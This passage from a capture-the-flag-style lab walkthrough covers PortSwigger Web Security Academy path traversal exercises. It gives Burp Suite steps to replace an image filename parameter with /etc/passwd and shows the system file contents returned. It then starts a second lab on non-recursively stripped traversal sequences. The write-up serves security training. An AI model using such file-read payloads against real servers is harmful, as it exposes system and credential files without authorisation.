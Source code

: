 ### **3\. 🖼️ Trigger an Image Request**

* On the lab site, click any product to view it and forward it in proxy.

You’ll see an image being loaded, e.g.:  
GET /image?filename=37.jpg HTTP/2  
Host: \<your-lab\>.web-security-academy.net

### **4\. 📤 Send to Repeater**

* Right-click the request in **Proxy** → **Send to Repeater**.  
* Go to the **Repeater** tab.

### **5\. 🧨 Modify the Payload**

Replace the filename value with an **absolute path**:

/etc/passwd

Final request:  
GET /image?filename=/etc/passwd HTTP/2  
Host: \<your-lab\>.web-security-academy.net

### **6\. 📥 Send & Observe**

* Click **Send**.

In the response tab, you should see content like:

 ruby  
CopyEdit  
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
...

* Show response in browser.

**💥Boom you solved the lab.**

**Flaw:**  
The app **blocks ../**  
But **fails to restrict absolute paths** :

/etc/passwd

# **Lab: File path traversal, traversal sequences stripped non-recursively**

## **⚙️ Step-by-Step Guide (Burp Suite)**

### **1\. 🧭 Launch the Lab**

Click “ACCESS THE LAB” to open the target application in your browser.
